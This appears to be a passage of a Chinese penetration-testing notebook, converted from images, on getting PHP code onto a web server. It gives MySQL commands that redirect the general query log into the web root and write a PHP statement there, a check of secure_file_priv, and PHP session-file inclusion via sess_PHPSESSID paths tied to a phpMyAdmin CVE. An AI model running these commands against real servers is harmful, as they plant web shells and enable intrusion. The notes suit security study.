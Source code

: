 ![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image41.png){width="4.930555555555555in"
height="2.501761811023622in"}

使用sql语句 set GLOBAL general_log = 1; 开启日志

需要知道网站根目录

设置日志路径 set global general_log_file=\'/var/www/html/phpinfo.php\'

写入php语句 select \'\<?php phpinfo();?\>\' 将会记录到phpinfo中

服务phpinfo.php就会得到

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image42.png){width="5.760416666666667in"
height="3.5545428696412946in"}

如果没有权限就使用sql语句查看权限 select @@global.secure_file_priv;

mysql一句话日志木马(条件是开了才行)

检查方法：show variables like \'%general%\'

set global general_log=1;set global
general_log_file=\'c:/phpstudy_pro/WWW/1.php\';select \'\<?php
phpinfo();?\>\';

session包含

存储 可通过phpinfo查看session.save_path的值，即存储位置。

![fd80a9784991e6842c09d0ca0c7f62b8.jpg](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image43.jpeg){width="5.760416666666667in"
height="0.20318897637795275in"}

image.png

这里用的是phpstudy，常见的存储目录如下

/var/lib/php/sess_PHPSESSID

/var/lib/php/sessions/sess_PHPSESSID

/xxx/tmp/sess_PHPSESSID

/xxxx/tmp/sessions/sess_PHPSESSID

命名 那这个文件是怎么命名的呢？
文件名格式为sess\_\[phpsessid\]。而phpsessid来源于请求的cookie字段。

![cfbf8d00b4daacde8ce9f341a9796916.jpg](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image44.jpeg){width="5.760416666666667in"
height="1.699323053368329in"}

就可以像日志提权一样先使用phpmyadminSQL命令执行 select
\'\<?=phpinfo()?\>\'

然后查看PHPSESSID就可以断定目录 CVE-2018-12613可以实现文件包含

**Shell脚本加入开机自启动的方法：**

Linux中脚本设定开机自启动
